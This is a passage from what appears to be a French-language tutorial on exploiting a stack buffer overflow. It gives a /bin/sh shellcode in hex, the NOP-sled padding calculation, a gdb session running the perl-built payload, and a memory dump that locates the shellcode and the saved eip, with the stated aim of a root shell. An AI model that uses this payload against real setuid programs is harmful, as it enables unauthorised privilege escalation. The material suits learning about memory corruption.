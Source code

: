 ```
                                    fin du      eip
                                    buffer
```

Avec ces résultat, nous sommes capable de déterminer comment nous allons remplir notre buffer, pour :
1. Insérer notre code à exécuter.
2. Remplacer l'adresse de `eip` pour rediriger le programme vers notre code.

### Remplissage du buffer

Le code que nous allons exécuter est un `shell code`. Il nous permettra simplement de lancer un `shell`, mais avec les droits du programme exécuté. Dans notre cas, les droits administrateurs. Nous n'allons pas rentrer dans les détails pour obtenir un `shell code`. Voici [celui que nous allons utiliser](https://beta.hackndo.com/buffer-overflow/) :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Notre `shell code` fait `45` octets. Or, notre buffer a une taille de `140` octets. Nous allons donc concaténer des instructions `NOP` (No OPeration) avec notre `shell code`. Nous pouvons déterminer le nombre d'instructions `NOP` à ajouter avec ce calcul :
```
140 - 45 = 95
```
Nous aurons donc besoin de `95` instructions `NOP`.

Toujours dans `gdb`, relançons notre exécutable avec l'associations des `NOP` :
```
> (gdb) delete
[...]
> (gdb) b *0x08048425
[...]
> (gdb) r `perl -e 'print "\x90"x95 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
[...]
> (gdb) x/40wx $esp
0xbffff620:	0xbffff630	0xbffff887	0x00000001	0xb7ec3c49
0xbffff630:	0x90909090	0x90909090	0x90909090	0x90909090
            ^
            NOP
0xbffff640:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff650:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff680:	0x90909090	0x90909090	0x90909090	0xeb909090
                                                ^
                                                début du shell code
0xbffff690:	0x76895e1f	0x88c03108	0x46890746	0x890bb00c
0xbffff6a0:	0x084e8df3	0xcd0c568d	0x89db3180	0x80cd40d8
0xbffff6b0:	0xffffdce8	0x69622fff	0x68732f6e	0xb7e45400
                                    ^           ^
                                    fin du      eip
                                    shell code
```
> L'écriture des registres en mémoire se fait de droite à gauche. C'est pour cela que `0xeb` semble apparaitre au milieu des instructions `NOP`. En réalité, il symbolise bien le début de notre `shell code`.
